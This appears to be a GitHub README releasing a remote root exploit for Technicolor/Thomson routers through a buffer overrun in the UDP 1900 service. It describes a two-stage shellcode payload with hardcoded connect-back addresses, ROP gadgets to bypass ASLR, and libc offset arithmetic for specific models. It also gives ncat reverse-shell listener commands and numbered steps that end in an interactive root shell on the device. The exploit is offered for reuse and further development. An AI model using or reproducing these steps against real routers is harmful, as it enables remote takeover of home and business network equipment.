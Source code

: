 ## Welcome to rev1900 R&D


Intro : 

first things first , since this dump started somewhat with a bunch of mysteriously files , let me explain what this is : 

this will give a root shell ( connect back  mode ) on, I think,  all ... technicolor / thomson  routers that are running 2.6  / 2.4 kernels , it goes a long way...  from aprox 2009 till now 2019 , so 10 years scope , on the run.... I have used it  on tg787 tg784 tg789 , more recently tg 789vacv2  and others  ... I am releasing this because this was getting dust on the hard drives, and maybe someone will be interested in enhacing the funcionality and give some life to it, it is pretty raw now, has hardocded ips ports offsets  and waht not... . 

it was quite a challenge back them to develop this ... the crossed compiled tools without reference toolchain,  the  live endless debugging  sessions , the crashes  step ins. memory access ,   it was slow  process but a frutuosos one for me,  with persistence and a lot os patience  it came out pretty reliable. 
A one man show! and a lonely ride indeed , good times. 

may it serve you on your  quest and shed some light on your own path.

Tut :  

this is a multi stage shellcode  exploit that takes advantage from a udp 1900 service buffer overrun.

due to buffer size constraints, exploitation cannot be done in one shot , so it had to be split in a 2 stage payload : 


    stage one -> generated by genex.py  ( connect back port 444 ip 10.0.0.1 and download stage two to memory )
    stage two -> generated by genex2.py  ( connect back port 4444 ip 10.0.1 and redirect shell fds to listner , you all have a shell withou prompt when this reaches here)
    ( @toDo : rename these files for something more understandable  and add command line arguments ( connect back ip , port , etc ... ) )

    these have hardcoded ip addresses and ports ( 10.0.0.1 and ports 444 , 4444 ) 
    cat listener.sh 
    
        ncat -vv -l 444 --keep-open -c 'cat exit' & 
        ncat -v -l 444 --keep-open

this is a already working exploit , unfortunally it has that hardcoded stuff , some more thinking has to be made because , generating null free shellcode for connect back ip 10.0.0.1 takes different size than for example 192.168.1.1 , and size is a constraint here.

one final remark , this one uses some rop gadgets to bypass aslr , and libc location changes between models and firmware versions.  if a close look is taken on ex extg789vacv2.py , you will see the comments after the registers overwrites. are the relative offsets regarding /lib/libc.so.0 location ... so how to get that reference base address from libc , i did not check if this information was dumped to telnet console , it might , but with serial console if you launch the reference crash test udp.py it will print crash dump report with libc address , next you will have to adapt exploiy.py , better look at extg789vacv2.py as it has the offset math comment already , would like to automate this also .... 

so ... what has to be done : 

    1>  run udp.py , and grab the offset of libc from serial console . 
    2>  adapt ext789vacv2.py  ( ra , s0 , s4 , s2  registers )  ( libc: 0x2ae50000  , ra = hex(0x2ae50000+0x60330) , and so on .... )
    3>  (listner.sh) ncat -vv -l 444 --keep-open -c 'cat exit' &  ncat -v -l 444 --keep-open 
    4>  adjust UDP_IP = "10.0.0.138" on ext789vacv2.py and make sure you are in 10.0.0.1 ( all of them listen on 10.0.0.138 , so this should not be a problem )   and sock.setsockopt(socket.SOL_SOCKET, 25, 'eth1') <---- eth1 interface ( choose yours , not relevant to shellcode payloads ... ) 
    5> run python ext789vacv2.py
    6> you should see some activity on the first ncat ( this is good ) 
    7> you should see some activity on the second ncat , at this point you have a reverse shell on this console, just type ls and the look for youtself
    8> the rest is up to you . 


 be wise , be responsible. 

 Cheers,
  
 keep on rolling :) 







